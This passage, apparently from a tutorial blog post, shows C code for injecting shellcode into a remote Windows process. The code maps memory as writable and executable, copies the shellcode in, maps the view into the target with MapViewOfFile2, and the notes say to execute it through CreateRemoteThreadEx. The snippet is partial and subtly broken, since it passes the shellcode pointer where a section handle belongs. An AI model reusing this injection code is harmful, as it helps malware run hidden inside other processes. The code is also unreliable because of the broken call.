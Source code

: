 But MapViewOfFile2 gives you the power to map the memory into a remote process’s address space. That way, your shellcode will be accessible and executable inside the target process.

Here is the code: 



{{< highlight c >}}

// Modifying the mapped memory to make it writable and executable
	modified_map = MapViewOfFile(Hmap, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, shell_size);

	if (modified_map == NULL) {
		printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

    // copying the shellcode to the mapped memory 
	memcpy(modified_map, shell_add, shell_size);

// hProc is the handle you got from the target process 
    PVOID remote_map = NULL;

   remote_map = MapViewOfFile2(shell_add, hProc, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);


    // Retrieving the address of the modified mapped memory

	*map_address =  remote_map;

    // Closing the file mapping handle to free system resources
	if (Hmap) {
	
		CloseHandle(Hmap);
	}


	return TRUE;

}

{{< /highlight >}}


Just some quick notes:
- Modify your function to take a handle to the target process as a parameter. You’ll need it for mapping the file view into the remote process using MapViewOfFile2.

- In your main function, you’ll need to create a remote thread in the target process using the WinAPI function CreateRemoteThreadEx.

- You can’t create fibers in a remote process — fibers exist only in the context of the current thread, and there’s no thread context to convert in a remote process.